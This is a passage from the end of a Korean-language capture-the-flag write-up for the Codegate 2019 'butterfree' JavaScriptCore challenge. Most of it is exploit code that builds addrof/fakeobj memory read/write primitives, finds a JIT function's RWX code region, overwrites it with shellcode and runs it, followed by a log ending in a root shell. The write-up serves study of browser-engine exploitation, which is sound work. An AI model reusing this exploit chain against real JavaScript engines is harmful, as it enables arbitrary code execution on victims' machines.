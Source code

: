 ```javascript
            var v = {};
            var obj = {p : v};

            var addr = addrof(obj);
            assert(fakeobj(addr).p == v, "addrof and/or fakeobj not worked....-_-");

            var propAddr = Add(addr, 0x10);
            var val = this.read64bits(propAddr);
            assert(val.asDouble() == addrof(v).asDouble(), "read64bits not worked...-_-");

            this.write16bits(propAddr, 0x1337); 
            assert(obj.p == 0x1337, "write16bits not worked...-_-");
        }
    };

    memory.test();
    print("[+] Okay, it is working!");

    print("[+] hiding container from JSC!");
    var empty = {};
    var emptyJSCell = memory.read64bits(addrof(empty));
    memory.write64bits(addrof(container), emptyJSCell);

    var jitFunc = makeJITCompiledFunction();

    var jitFuncAddr = addrof(jitFunc);
    print("[+] JIT Function       = " + jitFuncAddr);

    var execAddr = memory.read64bits(Add(jitFuncAddr, 0x18));
    print("[+] Executable Address = " + execAddr);

    var jitCodeObjAddr = memory.read64bits(Add(execAddr, 0x18));
    print("[+] JIT Object Address = " + jitCodeObjAddr);

    var jitCodeAddr = memory.read64bits(Add(jitCodeObjAddr, 0x160));
    print("[+] RWX Code Area      = " + jitCodeAddr);

    memory.write(jitCodeAddr, shellcode);

    print("[+] Let's pwn it!");
    jitFunc();
}

pwn();
```


가비지 컬렉터 등 내부의 여러 컴포넌트로 인해 reliable 하지는 않으나, 반복해서 공격(<200)한 결과 쉘을 얻을 수 있었다.

```
root@ubuntu1804:/mnt/hgfs/lili/hack/codegate2019/butterfree/jscpwn# ./jsc solved_large.js
0x00007fffb24c84e0
[+] victim @ 0x00007fffb0a206a0
[+] container @ 0x00007fffb24c8c80
[+] limited memory read/write working
[+] shellcode function object @ 0x00007fffb048a1c0
[+] executable instance @ 0x00007fffb2483910
[+] JITCode instance @ 0x00007fffb00c5000
[+] JITCode @ 0x00007fffb2e04c80
#
```

## 참조
* https://github.com/wwkenwong/CTF-Writeup/tree/master/browser/Codegate_CTF_2019_Preliminary_Butterfree